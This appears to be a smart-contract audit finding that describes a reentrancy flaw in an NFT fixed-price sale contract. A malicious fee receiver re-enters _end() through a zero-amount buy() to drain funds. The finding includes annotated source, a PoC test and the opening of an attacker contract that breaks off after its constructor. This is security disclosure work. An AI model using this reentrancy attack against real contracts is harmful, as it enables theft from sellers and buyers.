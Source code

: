 ### Impact
A malicious `feeReceiver` contract could use re-entry in the `_end()`, through `buy()` call to empty the contract of funds.

The seller has no control over who receives the fee and given all the issues with loss of keys lately the possibility of this attack  could affect the trust in the protocol.

### Proof of Concept
This requires that `call()` is used instead of `transfer()`, which is heavily recommended as the gas limit on `transfer()` could cause the contract to break down if a seller/feeReceiver uses a wallet or any kind of complex contract to receive their funds.

When `call()` is used, a malicious `feeReceiver` contract could trigger the `_end()` code again by doing a `buy()` of zero NFTs:

```javascript
57:    function buy(uint256 _amount) external payable {
58:        Sale memory sale_ = sale;
59:        IEscher721 nft = IEscher721(sale_.edition);
60:        require(block.timestamp >= sale_.startTime, "TOO SOON");

           // since _amount = 0 no funds needs to be sent to execute this
61:        require(_amount * sale_.price == msg.value, "WRONG PRICE");

           // newId will not change as amount is 0
62:        uint48 newId = uint48(_amount) + sale_.currentId; 
63:        require(newId <= sale_.finalId, "TOO MANY");

...
           // newId will still equal sale_.finalId hence enter _end() again
73:        if (newId == sale_.finalId) _end(sale);
74:    }
```

PoC in `FixedPrice.t.sol`:
```javascript
    function test_WhenMintsOut_BuyReentrancy() public {
        test_Buy();
        
        FixedPriceReentrancy feeReceiver = new FixedPriceReentrancy(address(sale));
        fixedSales.setFeeReceiver(payable(address(feeReceiver)));

        sale.buy{value: 9 ether}(9);
        
        // feeReceiver stole most of the 10 eth
        console.log("feeReceiver ",address(feeReceiver).balance);
        // saleReceiver got almost nothing
        console.log("saleReceiver",address(69).balance);
    }
```

`FixedPriceReentrancy.sol`:
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

interface IFixedPrice {
    function buy(uint256 amount) external;
}

contract FixedPriceReentrancy {
    IFixedPrice private immutable fixedPrice;

    constructor(address _fp) {
        fixedPrice = IFixedPrice(_fp);
    }
```